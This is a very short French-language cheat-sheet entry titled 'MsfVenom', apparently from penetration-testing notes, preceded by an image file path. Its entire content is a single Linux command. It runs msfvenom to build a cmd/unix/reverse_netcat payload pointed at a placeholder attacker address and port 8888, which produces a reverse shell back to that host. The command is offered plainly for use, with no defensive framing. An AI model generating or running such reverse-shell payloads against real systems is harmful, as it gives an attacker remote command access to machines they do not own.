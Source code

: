 MsfVenom

# MsfVenom


## Linux 

Créer un reverse netcat  :

`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`